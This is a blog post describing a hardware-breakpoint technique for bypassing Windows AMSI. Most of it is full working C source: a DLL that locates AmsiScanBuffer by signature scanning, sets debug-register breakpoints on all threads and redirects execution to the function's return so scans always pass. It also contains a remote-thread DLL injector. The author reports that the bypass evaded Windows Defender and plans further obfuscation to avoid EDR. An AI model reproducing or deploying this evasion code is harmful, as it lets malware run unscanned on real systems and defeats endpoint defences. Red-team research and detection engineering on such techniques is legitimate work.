 ```yaml
---
title: Frida vs. AMSI - Beyond Prototyping
description: We broke AMSI in theory, but now let's turn it into a real exploit!
---
```


# Frida vs. AMSI - Beyond Prototyping

In my [previous article on bypassing AMSI](/blogs/frida-vs-amsi), I discussed various approaches to disabling AMSI on a Windows system - by hooking and intercepting key functions, by patching them in memory, or by corrupting the data structures that AMSI relies on to function. 

All of these techniques are certainly effective, and Frida was a great tool for rapidly implementing and experimenting with them.

However, none of them are particularly stealthy. Patching a process in memory is a fairly noisy activity. While it might not get picked up by *every* EDR as long as you're not using signatured tooling, any product with a robust behavioural analysis function is likely to flag this as suspicious behaviour.

In this article, I'll describe another approach to patching AMSI. I also hope to further demonstrate Frida's usefulness as a rapid prototyping tool, as it was my earlier research using Frida that brought me here in the first place.

## Patchless Patching

The basic idea is recognisable from the previous article in this series: we're still patching the *AmsiScanBuffer()* function to short-circuit its functionality. In this case, we're going to simply redirect execution to the RET instruction at the end of *AmsiScanBuffer()* whenever it gets invoked. The function will return instantly with a default return value of 0.

The way we're going to execute that patch is different, however. We're going to use hardware breakpoints to intercept *AmsiScanBuffer()*, a technique I can't take credit for. I learned about it from an article in [VXUnderground Black Mass Halloween 2022](https://vx-underground.org/Papers/Other/VXUG%20Zines), which I highly recommend if you're comfortable with C. It's a great read.

The basic idea works as follows:

1. Create a DLL which must be injected into or otherwise loaded by the process you want to patch AMSI for. 
2. Within *DllMain()*, identify the memory address of *DllCanUnloadNow()* in the mapped version of AMSI.DLL.
3. Use egg-hunting techniques to scan forward from *DllCanUnloadNow()*, searching for the start of *AmsiScanBuffer()*. This indirect approach helps with evasion, as per the **@am0nsec** implementation.
4. Manipulate debug registers to set a hardware breakpoint on the address of *AmsiScanBuffer()*. When the function is invoked, a special exception will be thrown.
5. Register an exception handler which simply redirects execution to the end of the function.

As with other egg-hunting AMSI patching techniques, this approach is somewhat fragile as the specific signatures we're searching for will change between different versions of Windows.
## Proof of Concept

Note that this is only a proof of concept and hasn't been tested extensively. Here's what it looks like:

```c
#include <windows.h>
#include <sys/types.h>
#include <processthreadsapi.h>
#include <stdio.h>
#include <tlhelp32.h>

// AMSI Bypass DLL via Hardware Breakpoints
// Find some way to load or inject this DLL into your process and it will hook AmsiScanBuffer().
// Compilation: x86_64-w64-mingw32-gcc amsi-breakpoint.c -shared -o  amsi-breakpoint.dll

// A simple memory scanner for the purpose of finding ROP gadgets.
uintptr_t find_egg(uintptr_t addr, char *egg, int size, int max)
{
    for (int i = 0; i < max; i++)
    {
        if (memcmp((LPVOID)(addr + i), egg, size) == 0) {
            return (addr + i);
        }
    }
    return 0;
}

// Exception handler that gets invoked when the breakpoints trigger.
// It uses find_egg() to identify the RET instruction at the end of AmsiScanBuffer() and redirect execution to it.
// This effectively patches the function to return 0.
LONG WINAPI ExceptionHandler(PEXCEPTION_POINTERS ExceptionInfo) {
	// Validate that it's a single-step exception, thrown by the hardware breakpoint.
	if (ExceptionInfo->ExceptionRecord->ExceptionCode == STATUS_SINGLE_STEP) {
		// Search forwards from the current location for a RET instruction and move the instruction pointer to it.
		uintptr_t rip = ExceptionInfo->ContextRecord->Rip;
		uintptr_t newrip = find_egg(rip, "\xc3", 1, 500);
		ExceptionInfo->ContextRecord->Rip = newrip;
		return EXCEPTION_CONTINUE_EXECUTION;
	}
	return EXCEPTION_CONTINUE_SEARCH;
}

// Set a hardware breakpoint on a thread by manipulating the debug registers of its thread context.
BOOL set_hardware_breakpoint(HANDLE thd, uintptr_t address) {
	CONTEXT context = { .ContextFlags = CONTEXT_DEBUG_REGISTERS };
	GetThreadContext(thd, &context);
	
	// set the breakpoint address
	context.Dr0 = (uintptr_t) address;

	// set bits 0 and 1 of dr7 to '10' (enable dr0 local breakpoint)
	context.Dr7 |= 1ull << 0;
	context.Dr7 &= ~(1ull << 1);

	// set bits 16 and 17 of dr7 to '00' (set dr0 break trigger to "execute")
	context.Dr7 &= ~(1ull << 16);
	context.Dr7 &= ~(1ull << 17);

	// set bits 18 and 19 of dr7 to '00' (set dr0 break size to 1 byte)
	context.Dr7 &= ~(1ull << 18);
	context.Dr7 &= ~(1ull << 19);	

	return SetThreadContext(thd, &context);
}


// Remove a hardware breakpoint on a thread by manipulating the debug registers of its thread context.
BOOL remove_hardware_breakpoint(HANDLE thd) {
	CONTEXT context = { .ContextFlags = CONTEXT_DEBUG_REGISTERS };
	GetThreadContext(thd, &context);
	
	// unset the breakpoint address
	context.Dr0 = 0ull;
	
	// unset bit 0 of dr7
	context.Dr7 &= ~(1ull << 0);
	
	return SetThreadContext(thd, &context);
}

// Iterate through the threads associated with a process and hook all of them with hardware breakpoints.
void hook_process(DWORD pid, uintptr_t addr) {
	HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	THREADENTRY32 te = { .dwSize = sizeof(THREADENTRY32) };
	Thread32First(h, &te);

	do {
		if (te.th32OwnerProcessID == pid && (te.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(te.th32OwnerProcessID))) {
			HANDLE thd = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
			BOOL res = set_hardware_breakpoint(thd, addr);
			if (res) {
				printf("Hooked 0x%p on thread %i\n", addr, te.th32ThreadID);
			}
		}
	} while (Thread32Next(h, &te));

	CloseHandle(h);		
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	const PVOID handler = AddVectoredExceptionHandler(1, ExceptionHandler);	
	const DWORD pid = GetCurrentProcessId();
	
	// Find the target address using a signature-based technique for evasion. Signature may need to be updated for different Windows versions.
	char *egg = "\x4C\x8B\xDC\x49\x89\x5B\x08\x49\x89\x6B\x10\x49\x89\x73\x18\x57\x41\x56\x41\x57\x48\x83\xEC\x70";
	uintptr_t base = (uintptr_t)GetProcAddress(GetModuleHandleW(L"AMSI.dll"), "DllCanUnloadNow");
	uintptr_t addr = find_egg(base, egg, 24, 65535);

	switch(fdwReason) {
		case DLL_PROCESS_ATTACH:
			// Hook the target address.	
			hook_process(pid, addr);
			break;
		
		break;
	}
	
	return TRUE;
}
```

For testing purposes, you can use the following "injector" to load the DLL into memory:

```c
#include <windows.h>
#include <sys/types.h>

void dll_inject(char *dll_path, pid_t pid) {
	HANDLE proc = OpenProcess(PROCESS_ALL_ACCESS, 0, pid);

	void *ptr = VirtualAllocEx(proc, 0, strlen(dll_path), MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE);
	WriteProcessMemory(proc, ptr, dll_path, strlen(dll_path), 0);

	void *kernel32 = GetModuleHandle(TEXT("kernel32.dll"));
	void *loadLibAddr = GetProcAddress(kernel32, "LoadLibraryA");
	CreateRemoteThread(proc, NULL, 0, loadLibAddr, ptr, 0, NULL);	
}

void main() {
	dll_inject("C:\\Users\\IEUser\\Downloads\\amsi-breakpoint.dll", 2768);
}
```

Upon running `inject.exe` with the correct path and the PID of your Powershell process, you should find that AMSI has been disabled for it.

![a screenshot that demonstrates the breakpoint AMSI bypass](/img/amsi-breakpoint.png)

## Conclusion

I won't be publishing the code for this AMSI bypass elsewhere, as I haven't tested it extensively enough to be sure it functions reliably. On my Windows 10 testing VM, though, it was enough to bypass AMSI without triggering the (non-enterprise) Windows Defender present on the system.

Breakpoint hooking is a technique I have injected from elsewhere (pun intended), but everything else I did here builds on what I learned in my previous article. I think it's a great illustration of how you can use reverse engineering and instrumentation tools to go from idea to prototype, and then prototype to proof of concept.

I might now go from proof of concept to finished tooling, with a bit more obfuscation included to throw off EDR from the bits that might trigger a signature. Tools like this tend to get burned pretty quickly when you release them in public, though, so I'll probably be keeping any further development on this one to myself. 
